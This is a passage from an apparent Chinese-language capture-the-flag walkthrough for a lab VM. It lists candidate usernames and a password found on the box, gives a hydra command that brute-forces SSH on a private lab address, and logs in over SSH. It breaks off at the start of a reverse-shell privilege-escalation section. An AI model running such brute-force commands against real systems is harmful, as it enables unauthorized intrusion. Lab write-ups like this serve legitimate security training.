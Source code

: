 文件夹里面的文件内容：

which_one_lol.txt

```
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

Pass.txt里面的内容：

```
Good_job_:)
```

## 2.getshell

把可能的用户名制作成字典  hydra爆破

```
 hydra -L user.txt -P pass.txt ssh://192.168.32.146 -w 10
```

![](img/Snipaste_2022-02-16_15-24-57.png)

ssh连接服务器



```shell
ssh overflow@192.168.32.146 
#输入密码  Pass.txt登录
```



## 3.提权方式一 反弹shell

正当找提权脚本的时候发现ssh断开了

每隔几分钟就断开

![](img/Snipaste_2022-02-16_15-52-00.png)

